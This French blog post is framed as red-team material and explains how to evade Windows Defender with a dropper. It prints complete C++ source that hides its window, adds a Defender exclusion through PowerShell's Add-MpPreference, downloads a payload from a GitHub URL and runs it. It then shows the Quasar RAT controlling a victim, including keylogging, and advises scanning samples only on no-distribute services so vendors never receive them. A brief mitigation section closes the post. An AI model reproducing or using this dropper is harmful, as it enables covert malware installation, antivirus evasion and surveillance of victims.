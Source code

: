 ```yaml
---
published: true
layout: post
title: "Evasion de Windows Defender grâce à un injecteur (dropper)"
description: "Cet article décrit comment rendre indétectable n'importe quel malware auprès de Windows Defender."
lang: fr_FR
category: redteam,malware,raccourci,dropper,injecteur,evasion
---
```

![Evasion de Windows Defender grâce à un injecteur (dropper)](/assets/images/2021-03-28-Evasion-Windows-Defender-injecteur-dropper/illustration.PNG)

# Evasion de Windows Defender grâce à un dropper
Un injecteur (ou *dropper*, en anglais), est un programme créé pour installer un logiciel malveillant sur un système cible.
Il s'agit d'une forme minimaliste de cheval de Troie. Le code du logiciel malveillant est soit inclus à même l'injecteur, soit téléchargé sur la machine à partir d'Internet une fois activé.

## Principe d'exploitation
PowerShell dispose d'une méthode [Add-MpPreference](https://docs.microsoft.com/en-us/powershell/module/defender/add-mppreference?view=win10-ps) qui permet d'intéragir directement avec Windows Defender.
Cette commande permet d'ajouter des exclusions sur les dossiers, fichiers, extensions.
C'est utile pour administrer un poste client par exemple mais peut être détournée de son utilité native.
L'idée est donc tout simplement d'ajouter une exception sur le malware. Le prérequis est d'avoir les droits d'exécuter un programme en tant qu'administrateur de la part de la victime.
Il sera alors possible d'exécuter et d'évader n'importe quel type de malware, quelque soit sont taux de détection original.

Pour l'exemple, j'utiliserai l'outil d'administration à distance (*Remote Administration Tool* ou *RAT*) [Quasar](https://github.com/quasar/Quasar) qui est libre et open source.

Le taux de détection original est le suivant :

[![Taux de détection du malware Quasar](/assets/images/2021-03-28-Evasion-Windows-Defender-injecteur-dropper/scan_malware.PNG)](/assets/images/2021-03-28-Evasion-Windows-Defender-injecteur-dropper/scan_malware.PNG)

Attention, lors de la création d'un malware ou injecteur (*dropper*), il **ne doit jamais** être scanné sur les plateformes telles que [VirusTotal](https://www.virustotal.com/gui/) car les échantillons sont distribués aux **éditeurs antivirus**.
Les plateformes dites sans distribution (*no distribute*) telles que [AntiScanMe](https://antiscan.me/) sont à privilégier. Il serait bête de griller votre cartouche avant même de commencer votre audit Red Team :)

## Création du dropper en C++
L'étape suivante est la création de l'injecteur. J'ai choisi le language C++ mais il peut être fait au format .bat, .ps1 ou tout autre langage tant que PowerShell est exécuté.
Le code ne tient qu'en quatre étapes :
1. Masquer la fenêtre
2. Ajouter l'exclusion via PowerShell avec la commande `Add-MpPreference` et le paramètre `-ExclusionPath`
3. Télécharger le malware à l'endroit où a été ajoutée l'exclusion
4. Exécuter le malware téléchargé

Voici le code source de l'application :
```cpp
#include <iostream>
#include <Windows.h>

int main()
{
    ::ShowWindow(::GetConsoleWindow(), SW_HIDE);
    system("powershell.exe -Command Add-MpPreference -ExclusionPath %appdata%\\malware.exe -Force");
    system("powershell.exe -Command Invoke-WebRequest -Uri https://github.com/CLeBeRFR/a/raw/main/malware.exe -OutFile %appdata%\\malware.exe");
    system("powershell.exe -Command Invoke-Item %appdata%\\malware.exe");
}
```
Le fichier manifest doit aussi être modifié via les paramètres du projet afin demander l'exécution de l'application en tant qu'administrateur.

Le taux de détection de l'injecteur est le suivant :

[![Taux de détection de l'injecteur (dropper)](/assets/images/2021-03-28-Evasion-Windows-Defender-injecteur-dropper/scan_dropper.PNG)](/assets/images/2021-03-28-Evasion-Windows-Defender-injecteur-dropper/scan_dropper.PNG)

La non détection de l'injecteur par Windows Defender est le seul élément qui est vraiment intéressant car l'injecteur sert uniquement à évader ce dernier.

Une fois l'injecteur envoyé à la victime, l'exclusion est correctement ajoutée et le malware pourtant initialement détecté par Windows Defender est exécuté. La victime apparaît alors du côté de l'attaquant :

[![Taux de détection de l'injecteur (dropper)](/assets/images/2021-03-28-Evasion-Windows-Defender-injecteur-dropper/Quasar.PNG)](/assets/images/2021-03-28-Evasion-Windows-Defender-injecteur-dropper/Quasar.PNG)

L'attaquant dispose alors de toutes les fonctionnalités du malware installé. Dans le cas présent, il est possible d'avoir un enregistreur de frappes (*keylogger*) :

[![Enregistreur de frappes (keylogger)](/assets/images/2021-03-28-Evasion-Windows-Defender-injecteur-dropper/keylogger.PNG)](/assets/images/2021-03-28-Evasion-Windows-Defender-injecteur-dropper/keylogger.PNG)

Il est également possible d'envoyer des messages à la victime :

[![Message box Quasar](/assets/images/2021-03-28-Evasion-Windows-Defender-injecteur-dropper/message_box.PNG)](/assets/images/2021-03-28-Evasion-Windows-Defender-injecteur-dropper/message_box.PNG)

D'autres fonctionnalités sont disponibles et dépendent du logiciel malveillant installé, un ransomware aurait également pu être installé...

Si la vicitme se rend dans les paramètres, elle pourra voir l'exclusion ajoutée par l'injecteur :

[![Exclusion Windows Defender ajoutée par l'injecteur](/assets/images/2021-03-28-Evasion-Windows-Defender-injecteur-dropper/exclusion.PNG)](/assets/images/2021-03-28-Evasion-Windows-Defender-injecteur-dropper/exclusion.PNG)

## Comment s'en protéger
Etant donné que cette technique nécessite les droits d'administration de la part de la victime, il convient de limiter au maximum la liste des comptes ayant le droit d'exécuter des programmes en tant qu'administrateur.
Fort heureusement, les postes clients des collaborateurs de grandes entreprises n'ont généralement pas une telle permission.

Par ailleurs, je pense que cette méthode est transposable aux différents anti virus en éditant les valeurs du registre ou la configuration des fichiers contenants les exclusions. La non utilisation de Windows Defender n'est donc pas un moyen de rémédiation.